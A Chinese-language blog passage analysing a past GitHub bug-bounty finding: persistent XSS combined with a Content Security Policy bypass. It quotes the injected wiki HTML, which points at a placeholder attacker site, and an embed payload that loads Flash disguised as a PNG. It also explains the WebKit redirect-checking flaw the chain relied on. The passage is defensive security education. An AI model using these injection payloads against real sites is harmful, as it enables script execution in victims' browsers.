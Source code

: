 是因为GitHub依赖自己网站上的[ZeroClipboard](https://github.com/zeroclipboard/zeroclipboard)库。 将依赖资源移动到CDN后，`self`就不再需要了，但因为某些原因（懒得改 or 觉得不会有安全问题？），在后来的策略中并没有被移除，直到一名 bounty hunter 发现了[一种利用方式](https://bounty.github.com/researchers/adob.html#persistent-cross-site-scripting--with-csp-bypass--20140210)。攻击者利用了一个 content injection bug 和 一个Chrome浏览器的bug 来 bypass CSP，并且成功执行js代码。攻击过程如下：

首先，攻击者用以下内容创建一个 Wiki 项：

```
<div class="selected">
<a href="https://some_evil_site.com/xss/github/embed.php" class="choose_plan js-domain">domain</div>
</div>

```

GitHub拥有一个特性，能够在多个地方（Issues, Pull Requests, Comments）渲染用户提供的HTML（通常是通过Markdown）。但用户提供的HTML会经过过滤处理，防止注入任意的HTML。

这里存在一种特殊情况，当HTML 标签的class 属性被设置为`choose_plan`和`js-domain`时，会触发 JavaScript 一些自动的操作，即自动请求标签的`href`，并将 response 插入到 DOM中。

而这里用户是可以自定义HTML 标签中的class属性值的。但因为 response 中的HTML仍然会受到 CSP 的制约，无法执行任意的 JS 代码。但此时，攻击者已经可以插入任意的HTML到DOM中了。

这里我的理解是因为`some_evil_site.com`不在`'self' assets-cdn.github.com`里，所以`自动请求标签href资源`的行为会被浏览器blocked。这里需要`href`对应的domain为self 或 CDN，才能成功加载资源并且把响应插入到DOM中。

这里bounty hunter给出的 POC也符合我的推测，domain使用的是`self`，即github.com：

```
<embed src="https://github.com/test-user/test-repo/raw/master/script.png" allowscriptaccess=always type="application/x-shockwave-flash">

```

前面在**script-src**提到，用户可控的内容(user-controlled content) + 浏览器对内容的嗅探解析(content sniffing) 可能会导致非预期的行为，因此加载 GitHub.com domain上用户可控的内容会增加脚本执行的几率，所以 GitHub在加载用户可控资源时，采取了跳转到另一个域名的方式来完成，比如请求`https://github.com/test-user/test-repo/raw/master/script.png`会跳转到`https://raw.githubusercontent.com/test-user/test-repo/master/script.png`，但`raw.githubusercontent.com`不在`object-src`允许的列表里，那么上面的POC是如何让 Flash成功加载并执行的呢？

GitHub 经过研究，发现是因为[WebKit 的一个 bug](https://bugs.webkit.org/show_bug.cgi?id=97030)所导致。正常的逻辑是，浏览器会验证所有的请求（包括redirects的）是否为CSP所允许。然而，有一些浏览器只会检查第一个请求的 domain 是否在 source list中，而不检查后续的 redirects 。

因为第一个请求的 domain 是self，embed 就能通过验证。浏览器的 Bug 加上 注入的 HTML（需要注意的是 allowscriptaccess=always 属性）导致了CSP bypass。

allowscriptaccess属性的解释如下：

```
The AllowScriptAccess parameter in the HTML code that loads a SWF file controls the ability to perform outbound URL access from within the SWF file
When AllowScriptAccess is "always," the SWF file can communicate with the HTML page in which it is embedded. This rule applies even when the SWF file is from a different domain than the HTML page.

```

这里还需要注意的一点是，当 script.png 资源被加载时，返回的`content-type`是`image/png`。但不幸的是， 只要Flash觉得响应像是一个Flash文件，就会尽可能的去尝试执行！
